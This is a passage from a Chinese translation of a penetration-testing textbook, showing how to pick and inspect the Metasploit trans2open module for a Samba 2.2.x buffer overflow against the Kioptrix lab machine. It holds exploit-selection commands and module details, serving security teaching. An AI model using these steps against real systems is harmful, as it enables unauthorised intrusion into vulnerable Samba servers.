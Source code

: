 在审查这些端口时，我们发现我们之前利用的 samba 端口 139 仍然是开放的。现在是时候看看在不必重新格式化利用代码的情况下我们能做些什么了。

```
msf> search samba 

```

结果是：

![使用 Metasploit 来利用 Kioptrix](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-pentest-hisec-env/img/7744_04_13.jpg)

+   名称：一旦我们决定尝试哪种漏洞利用，名称列将与 USE 命令相关联。

+   披露：披露日期是漏洞被公开或供应商知晓的实际日期，而不是概念验证代码发布的日期。

+   等级：等级非常重要，因为它表明漏洞利用的可靠性有多高。

+   描述也是这种漏洞利用的描述。

我们将使用`trans2open`漏洞利用，因为它类似于我们在本章前手动执行的操作。在`msfconsole`中输入：

```
msf > use exploit/linux/samba/trans2open 

```

当需要更多关于漏洞利用的信息时，我们可以使用`info`命令来接收以下输出：

```
msf exploit(trans2open) > info 

```

```
Name: Samba trans2open Overflow (Linux x86)
Module: exploit/linux/samba/trans2open
Version: 12196
Platform: Linux
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Great
Provided by:
hdm <hdm@metasploit.com>
jduck <jduck@metasploit.com>
Available targets:
Id Name
-- ----
0 Samba 2.2.x - Bruteforce
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 139 yes The target port
Payload information:
Space: 1024
Avoid: 1 characters
Description:
This exploits the buffer overflow found in Samba versions 2.2.0 to
2.2.8\. This particular module is capable of exploiting the flaw on
x86 Linux systems that do not have the noexec stack option set.
NOTE: Some older versions of RedHat do not seem to be vulnerable
since they apparently do not allow anonymous access to IPC.
References:
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2003-0201
http://www.osvdb.org/4469
http://www.securityfocus.com/bid/7294
http://seclists.org/bugtraq/2003/Apr/103

```
